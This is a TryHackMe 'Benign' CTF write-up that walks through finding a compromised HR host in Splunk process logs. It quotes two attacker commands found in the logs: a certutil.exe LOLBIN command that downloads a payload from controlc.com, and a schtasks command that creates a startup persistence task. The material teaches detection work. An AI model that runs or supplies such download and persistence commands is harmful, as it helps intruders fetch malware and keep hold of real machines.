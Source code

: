```yaml
---
title: "Benign - TryHackMe Write-up"
seoTitle: "Benign - TryHackMe Write-up"
seoDescription: "Explore the TryHackMe Benign challenge with Splunk logs investigation of HR department's network compromise. Find answers and detailed insights"
datePublished: Thu Aug 07 2025 11:58:06 GMT+0000 (Coordinated Universal Time)
cuid: cme1cf1zn000402jr6h0adct9
slug: benign-tryhackme-write-up
canonical: https://medium.com/@forrestcaffray/benign-tryhackme-5f01dfd0f386
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1754478101786/83508194-7d2e-414b-a791-65b22025d9bc.png
tags: cybersecurity, tryhackme, writeup, tryhackme-walkthrough

---
```


Link to room: [https://tryhackme.com/room/benign](https://tryhackme.com/room/benign)

> One of the client’s IDS indicated a potentially suspicious process execution indicating one of the hosts from the HR department was compromised. Some tools related to network information gathering / scheduled tasks were executed which confirmed the suspicion. Due to limited resources, we could only pull the process execution logs with Event ID: 4688 and ingested them into Splunk with the index **win\_eventlogs** for further investigation.

---

> How many logs are ingested from the month of March, 2022?

We want to set `index="win_eventlogs"` in the new Search and set the date range for the duration of March 2022:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1754479447530/a2a40fa5-9511-4bda-988a-2ef7240d250b.png align="center")

We can see the result here:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1754558004100/739ae7ef-a3ca-4e32-9cce-659aa82eca56.png align="center")

## `= 13959`

---

> Imposter Alert: There seems to be an imposter account observed in the logs, what is the name of that user?

To find this I filtered via `UserName` field and then `Rare values` and noticed this:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1754558680084/1a3d6c0f-032d-41e1-b019-53dfd9d6de5f.png align="center")

There is a UserName of `Amelia` which seems innocent enough, but as you can also see there is a UserName of `Amel1a` which definitely does not seem so innocent.

## `= Amel1a`

---

> Which user from the HR department was observed to be running scheduled tasks?

I searched for `index="win_eventlogs" schtasks` as a sort of blanket to see what pops up.

I got 87 events, so still a bit too much to look through. We are looking at which user, so clicked on UserName in Fields and spotted this:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1754559686885/1b8f1e3a-e298-4dad-8b41-721c371a84b8.png align="center")

Just one count for Chris.fort with this CommandLine being of interest:

`CommandLine: /create /tn OfficUpdater /tr "C:\Users\Chris.fort\AppData\Local\Temp\update.exe" /sc onstart`

## `= Chris.fort`

---

> Which user from the HR department executed a system process (LOLBIN) to download a payload from a file-sharing host.

There is a hint to checkout [https://lolbas-project.github.io/](https://lolbas-project.github.io/), so let’s go ahead and do just that! These are all Binaries, Scripts and Libraries default to the system, ready to be used.

We are also looking at the HR department which consists of:

**HR department  
**

* Haroon
    
* Chris
    
* Diana
    

So we are looking at Haroon, Chris or Diana using one of the LOBAS listed on the github.io page. There’s too many results to filter via UserName in this instance and perhaps too many LOLBIN processes.

However, we know that they downloaded a payload, so an elegant way of filtering might be by adding:

`CommandLine="*http*" OR CommandLine="*https*"`

Indeed we get 1 results from Haroon:

```yaml
 { [-]
   Category: Process Creation
   Channel: Windows
   CommandLine:  certutil.exe -urlcache -f - https://controlc.com/e4d11035 benign.exe
   EventID: 4688
   EventTime: 2022-03-04T10:38:28Z
   EventType: AUDIT_SUCCESS
   HostName: HR_01
   NewProcessId: 0x82194b
   Opcode: Info
   ProcessID: 9912
   ProcessName: C:\Windows\System32\certutil.exe
   Severity: INFO
   SeverityValue: 2
   SourceModuleName: eventlog
   SourceModuleType: Win_event_log
   SourceName: Microsoft-Windows-Security-Auditing
   SubjectDomainName: cybertees.local
   UserName: haroon
   index: winlogs
} 
```

this snippet being a bit juicy:

`CommandLine: certutil.exe -urlcache -f -` [`https://controlc.com/e4d11035`](https://controlc.com/e4d11035) `benign.exe`

We can see they used `certutil.exe` that is listed on the github page with description of “Windows binary used for handling certificates”

## `= haroon`

---

> To bypass the security controls, which system process (lolbin) was used to download a payload from the internet?

Well, we already answered this!

## `= certutil.exe`

---

> What was the date that this binary was executed by the infected host? format (YYYY-MM-DD)

We can look at the exact same results and notice this line:

`EventTime: 2022-03-04T10:38:28Z`

## `= 2022-03-04`

---

> Which third-party site was accessed to download the malicious payload?

Again, all the information is there, looking at:

`CommandLine: certutil.exe -urlcache -f -` [`https://controlc.com/e4d11035`](https://controlc.com/e4d11035) `benign.exe`

## `= controlc.com`

---

> What is the name of the file that was saved on the host machine from the C2 server during the post-exploitation phase?

We can see from:

`CommandLine: certutil.exe -urlcache -f -` [`https://controlc.com/e4d11035`](https://controlc.com/e4d11035) `benign.exe`

## `= benign.exe`

---

> The suspicious file downloaded from the C2 server contained malicious content with the pattern THM{..........}; what is that pattern?

For this one I just navigated to [`https://controlc.com/e4d11035`](https://controlc.com/e4d11035)

Upon finding the flag

## `= THM{________}`

---

> What is the URL that the infected host connected to?

We already know this :)

## [`= https://controlc.com/e4d11035`](https://controlc.com/e4d11035)

---

I enjoyed this wee exercise getting more familiar with Splunk, hope this write up helped!